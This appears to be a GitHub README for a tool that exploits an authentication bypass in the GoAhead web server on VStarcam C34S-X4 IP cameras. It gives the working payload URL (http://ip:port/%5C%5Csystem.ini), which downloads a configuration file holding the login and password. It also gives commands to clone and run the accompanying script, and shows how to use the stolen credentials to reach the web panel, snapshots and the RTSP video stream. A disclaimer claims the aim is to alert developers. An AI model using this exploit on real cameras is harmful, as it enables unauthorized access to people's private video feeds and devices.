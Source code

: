 ## Authentication Treversal
The Vulnerability of GoAhead Service on VStarcam C34S-X4 that allows you to download system.ini configuration file and get login and password.
--
## !WARNING!
The author is trying to draw the attention of the developers to the problem and I am not responsible for the harm caused to you or by you.
--


# IMPLEMENTATION

Еo perform the vulnerability, you must log in to the camera interface without authorization. Then, after the forward slash, you must add %5C%5Csystem.ini
and the file will start downloading. When you open the file, you will see your username and password written together. I have already written a small program
that interacts with the ONVIF protocol and receives images from the camera and a link to the RTSP stream.

# STEPS
1) To use it you have to install [python3](https://www.python.org)
[onvif_zeep](https://github.com/FalkTannhaeuser/python-onvif-zeep) and [requests](https://pypi.org/project/requests/)
```sh
git clone https://github.com/Retr0-code/auth-treversal
pip3 install -r requirements.txt
chmod +x GetInfo.py
python3 GetInfo.py --help
```
<br>
2) You can go to you browser and enter this link <b>http://ip:port/%5C%5Csystem.ini</b>
(You must change ip to address of camera and port to port that web-server run on).
<br>

![MozilaV.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/MozilaV.png)

<br>
Or you can use

```sh
python3 GetInfo.py --host <camera ip> --port <web-server port>
```

and than read as text downloaded file.
<br>

![PythonLogPass.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/PythonLogPass.png)

<br>
3) Now you can log in to web-panel.
<br>

![webPanel.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/webPanel.png)

Or you can use 

```sh
python3 GetInfo.py --onvif 10080 --host 192.168.0.58 --port 8888
```

and you get links to snapshots and RTSP stream link.
To get stream you have to specify login and password like this: <b>rtsp://username:password@ip:port/path/to/stream</b> In my case link looks like
this rtsp://admin:888888@192.168.0.58:554/udp/av0_1
<br>

![OnvifShow.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/OnvifShow.png)
